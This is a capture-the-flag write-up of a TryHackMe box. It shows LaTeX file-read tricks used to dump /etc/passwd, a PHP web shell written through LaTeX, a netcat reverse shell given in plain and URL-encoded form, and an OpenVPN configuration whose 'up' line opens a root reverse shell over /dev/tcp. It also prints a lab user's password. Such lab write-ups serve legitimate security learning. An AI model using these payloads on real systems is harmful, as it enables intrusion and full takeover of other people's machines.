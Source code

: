 # LaxCTF

"Try Harder!"

This one was tough, but fun. I learnt a lot more than I would like about latex. 

While the first stage - getting a shell on the box, was very exploratory and fun, the second stage got a weee bit CTF-like, with props like secret values encoded using keys buried in unrealistic APKs and an exploitable connection to TryHackMe etc. 

Ah well, learned a bit, and all the time wasted enumerating certainly taught me a lot about enumerating :D However, I would hope OSCP is a little more real-world than this.

## Process

First, only 22 and 80 are open. 80 reveals a 'TexMaker' website, where you can enter LaTeX script and have it compiled into a PDF for you.

I immediately investigated reading files into the output (LFI) and executing shell commands through LaTeX. 

> The docs, by the way, for LaTeX are truly hideous - how has it survived and thrived for so long with such shit documentation?

I found this blog: https://0day.work/hacking-with-latex/. It shows several LaTeX abuse techniques, and over the next six hours or so I experimented with them:

- First, shell execution is right out (as far as I can tell). The common commands `immediate`, `write18` or `input|` were all blocked. Even the `\def` trick the blog specifies at the end didn't result in any code execution, so I assumed all shell escapes were turned off (later confirmed).

- Second, I could read files anywhere. I read `\etc\passwd` but it failed, likely due to latex interpreting `_` as a command character and the system having at least one user like `_apt`; I could do partial extraction via not looping but just going line by line, however I eventually found a better technique: rather than using `\text` to emit the line to the generated PDF, if I used `\typeout` I could write to the compile log which is printed on the page:

    ```
    \newread\file
    \openin\file=/etc/passwd
    \loop\unless\ifeof\file
        \read\file to\fileline 
        \typeout{\fileline}
    \repeat
    \closein\file
    ```

- Third, writing anywhere didn't work. I could write files with no path, so local, but I didn't know where that directory was and so couldn't emit a shell or anything.

With no shell commands, I figured my best bet was going to be adding some PHP to the website somewhere. I knew it was PHP because `dirb` revealed a 200 code for `config.php` (it also revealed a few listable directories, like where the pdf's go).

Using my `typeout` technique, I was able to fully read `/etc/passwd` and found an entry for `/home/king`. Guessing the user flag would be `user.txt`, I successfully read it using the same technique.

At this point, my chief focus was finding where the web directory was. I tried lots of things, even trying to guess various `/var/www/` paths, to no avail. Finally, via this blog https://highon.coffee/blog/lfi-cheat-sheet/, I found out about `/proc/self/environ`. Reading that partially failed, but I got enough of the content to reveal the `OLDPWD` of the current user was `/var/www/html/Latex`. Boom!

Reading `config.php` revealed the existence of a `/compile` path. I had tried writing files to `/pdf` and `/assets` but they hadn't worked. Writing a `.php` to `/var/www/html/Latest/compile/test.php` did work though, and I was able to browse to it! I promptly used the following to create a simple PHP web shell:

    \newwrite\outfile
    \openout\outfile=shell.php
    \write\outfile{<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>}
    \closeout\outfile

    some random text to ensure pdf is created

Going to `/compile/shell.php?cmd=whoami` got that magic `www-data`. To get a reverse shell I used this script:

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.178.75 4444 >/tmp/f

Though since it had to be in the query string, I first encoded it to url with Burp:

    %72%6d%20%2f%74%6d%70%2f%66%3b%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%66%3b%63%61%74%20%2f%74%6d%70%2f%66%7c%2f%62%69%6e%2f%73%68%20%2d%69%20%32%3e%26%31%7c%6e%63%20%31%30%2e%31%30%2e%31%37%38%2e%37%35%20%34%34%34%34%20%3e%2f%74%6d%70%2f%66

Once on the machine, I tried `sudo -l` and `find / -user root -perm -u=s` without success. I checked out that suspicious entry from the bottom of `/etc/passwd`: `/opt/secret`, and found a file readable and executable by everyone that looked to be (via its first line) a aes/cbc/128 encoded file. I've saved it here as [laxctf.secret](./laxctf.secret).

I spent another huge amount of time (~4 hours) enumerating. I found a apk file under the website, but after running it through strings and decoding it via unzip it didn't seem to contain anything. I also found a script owned by `king` called `cleanpdfdir.sh`, but adding a test `echo "cat /etc/passwd > passwd.txt" >> cleanpdfdir.sh` didn't produce results.

Eventually I gave up, and went for some help. This directed me straight back to the apk, and a tool I was unaware of: apktool: https://ibotpeaches.github.io/Apktool/documentation/

I used this to decode the apk, and while crawling through its files, I found in `smali/com/example/a11x256/frida_test/my_activity.smali` code like the following:

    .prologue
    .line 90
    :try_start_0
    const-string v3, "sUp3rCr3tKEforL!"

    .line 91
    .local v3, "pre_shared_key":Ljava/lang/String;
    const-string v1, "sUp3rCr3tIVforL!"

    .line 92
    .local v1, "generated_iv":Ljava/lang/String;
    const-string v5, "AES/CBC/128"

Using that via an [online AES decoder](https://www.devglan.com/online-tools/aes-encryption-decryption) I got the following a huge brainfuck script (easily determined via its syntax: `----[---->+<]>--.+[--->+<]>+.[--->+<]>+.[->+++++` etc.). Running that through [a brainfuck interpreter](https://www.dcode.fr/brainfuck-language) gave me what looked a bit like base64. Running *that* through [cyberchef](https://gchq.github.io/CyberChef) didn't decode, however. 

But, one thing I noticed, was that the supposed base64 started with `=`; normally base64, if it has these, adds them at the end as padding. 

A bit of experimenting revealed the solution: reverse -> from base64 * 16 (yes, decode from base64 16 times) which finally gave: 

    king:tryh@ckm3w4sH3r3

After this, ssh'ing onto the box as King, even moar enumeration. The PATH variable looked suspicious, along with root's cronjob that ran `bash run.sh`. I tried replacing bash via exploiting the fact that PATH appeared to include king's home directory subfolders, but that didn't work.

More help pointed me to a suspicious file in /home that I had previous ignored as some sort of weird artefact: one thing about this room is that its a bit CTF-ey, not real worldey, if that makes sense. Basically there is an tryhackme.ovpn file in the home dir, and its being run by run on a shedule, likely as part of the `run.sh` the cronjob is invoking.

Well, there is an exploit via ovpn files: https://medium.com/tenable-techblog/reverse-shell-from-an-openvpn-configuration-file-73fd8b1d38da

I replaced the ovpn's content with:

    remote 3.104.196.208:1194
    dev null
    script-security 2
    up "/bin/bash -c '/bin/bash -i > /dev/tcp/10.10.162.148/4444 0<&1 2>&1&'"

With the first IP Port above being the IP Port I use when connecting to TryHackMe (just there to make the connection valid), and the second IP Port being my attacker machine, where I set up a nc listener.

A root shell popped momentarily. A bit silly, really.